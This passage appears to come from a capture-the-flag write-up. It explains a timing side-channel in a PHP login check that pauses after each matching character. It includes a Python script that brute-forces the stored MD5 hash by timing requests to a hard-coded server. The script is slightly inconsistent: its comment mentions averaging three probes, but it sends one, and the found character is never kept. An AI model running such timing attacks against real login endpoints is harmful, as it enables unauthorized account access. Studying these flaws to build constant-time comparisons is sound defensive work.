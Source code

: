 *$hash* is value from DB and *$pass* is MD5 hash of password from login form. First check is the length - if the length of $pass not equals the length of $hash, validation returns false. So even if we spoof login form we still have to send 32 signs (MD5 hash).

Then script checks sign by sign if $hash and $pass are equal and it returns false right after first difference. If signs are the same, it waits 0.3 sec before next check. And this is exactly what we need to bruteforce this validation.

Assuming that any valid sign took about 0.3 sec break before next sign, we can compare requests time for every single character allowed in MD5 string starting from first character (any hex digit in this case). I've created simple Python script for this. It just creates 32 characters string starting from 0 through f and sending it to the server. Then we can check if there's character which causes a little bit longer response:

```python
#!/usr/bin/python

import requests
import sys

headers = {
    "Referer": "http://54.175.3.248:8089/",
    "Content-type": "application/x-www-form-urlencoded",
    "Host": "54.175.3.248:8089"
}


def send_request(current_password):
    payload = {"username": "~~FLAG~~", "password": current_password}

    r = requests.post("http://54.175.3.248:8089/premium.php", headers=headers,
                      data=payload)
    return r.elapsed.total_seconds()


charset = "abcdef0123456789"
final_password = sys.argv[1]

current_password = ""
s = ""
for c in charset:
    current_password = final_password + c + "-" * (31 - len(final_password))

    # send payload and check response time, avg from 3 probes
    print "sending payload with password: {}".format(current_password)

    t = send_request(current_password)
    print "time for {} - {}".format(c, t)

final_password += s
print "\n\ncurrent final password: {} ({} chars)\n\n".format(final_password,
                                                             len(
                                                                 final_password))

```
